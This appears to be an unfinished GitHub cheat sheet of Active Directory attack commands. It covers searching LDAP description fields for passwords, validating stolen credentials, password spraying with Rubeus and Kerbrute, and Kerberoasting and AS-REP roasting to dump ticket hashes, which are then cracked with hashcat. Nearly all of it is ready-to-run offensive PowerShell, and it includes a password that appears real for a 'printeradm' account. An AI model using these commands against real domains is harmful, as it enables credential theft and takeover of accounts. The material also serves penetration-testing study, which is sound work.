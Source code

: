 # 1. Sensitive Data in LDAP
## Start ADExplorer and search through the AD for sensitive information
`PS> adexplorer.exe`

ADexplorer> search user description field contains pw, pwd, password, pass

## Enumerate the AD with ADRecon
`PS> .\ADRecon.ps1`

`PS> .\ADRecon.ps1 -GenExcel .\ADRecon-Report-timestamp`

TODO: wget Excel file since Excel will not be installed

## Check if the password is working
```
function Test-ADCredential {

    [CmdletBinding()]
    Param
    (
        [string]$UserName,
        [string]$Password
    )
    if (!($UserName) -or !($Password)) {
        Write-Warning 'Test-ADCredential: Please specify both user name and password'
    } else {
        Add-Type -AssemblyName System.DirectoryServices.AccountManagement
        $DS = New-Object System.DirectoryServices.AccountManagement.PrincipalContext('domain')
        $DS.ValidateCredentials($UserName, $Password)
    }
}
```

`Test-ADCredential -UserName printeradm -Password "x!3945jjlkJ2mN4QQ2"`

# 2. Password Spraying
## Identify the standard domain password and start a password spray attack
### Rubeus
`PS> .\Rubeus.exe brute /password:Start123!`

### Kerbrute
`PS> Invoke-WebRequest "https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_amd64.exe" -OutFile ".\kerbrute.exe"`

`PS> Import-Module .\PowerView.ps1`

`PS> (Get-NetUser | select samAccountName).samAccountName > users.txt`

`PS> .\kerbrute.exe passwordspray --domain contoso.azure .\users.txt Start123!`

ToDo error

# 3. Kerberoasting
## Identify Kerberoastable users
### PowerView
`PS> Import-Module .\PowerView.ps1`

`PS> Get-NetUser | Where-Object {$_.servicePrincipalName} | fl`

`PS> Get-NetUser -SPN | ft serviceprincipalname, samaccountname, cn, pwdlastset`

### PowerView-Dev
`PS> Import-Module .\PowerView-dev.ps1`

`PS> Get-DomainUser | Where-Object {$_.servicePrincipalName} | fl`

`PS> Get-DomainUser -SPN | ft serviceprincipalname, samaccountname, cn, pwdlastset`

### Invoke-Kerberoast
`PS> Import-Module .\Invoke-Kerberoast.ps1`

`PS> Invoke-Kerberoast`

### Rubeus
`PS> .\Rubeus.exe kerberoast`

## Get TGS Kerberos Tickets
### PowerView-Dev
`PS> Import-Module .\PowerView-dev.ps1`

`Get-DomainUser -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | % { $_.Hash } | Out-File -Encoding ASCII kerberoasted.txt`

### Invoke-Kerberoast
`PS> Import-Module .\Invoke-Kerberoast.ps1`

`PS> Invoke-Kerberoast | % { $_.Hash } | Out-File -Encoding ASCII kerberoasted.txt`

### Rubeus
`PS> .\Rubeus.exe kerberoast /outfile:kerberoasted.txt`

## Crack TGS tickets
`PS> hashcat -a 0 -m 13100 kerberoasted.txt /usr/share/wordlists/rockyou.txt`

# 3. Kerberoasting
## Identify AS-REP roastable users
### PowerView-Dev
`PS> Get-DomainUser -PreauthNotRequired | ft samaccountname, pwdlastset`

`PS> Get-DomainUser -UACFilter DONT_REQ_PREAUTH,NOT_PASSWORD_EXPIRED | ft samaccountname, pwdlastset`

### Rubeus
`PS> .\Rubeus.exe asreproast`

### Invoke-ASREPRoast
`PS> Import-Module .\Invoke-ASREPRoast.ps1`

`PS> Invoke-ASREPRoast`

## ASREPRoasting
### Rubeus
`PS> .\Rubeus.exe asreproast /format:hashcat /outfile:asrephashes.txt`

### Invoke-ASREPRoast
`PS> Invoke-ASREPRoast | % { $_.Hash } | Out-File -Encoding ASCII asrephashes.txt`

## Cracking AS-REP hash with Hashcat
`PS> hashcat -a 0 -m 18200 asrephashes.txt /usr/share/wordlists/rockyou.txt`

# 5. PASSWD NOT REQ
Get-ADUser -Filter {PasswordNotRequired -eq $true}

ToDO




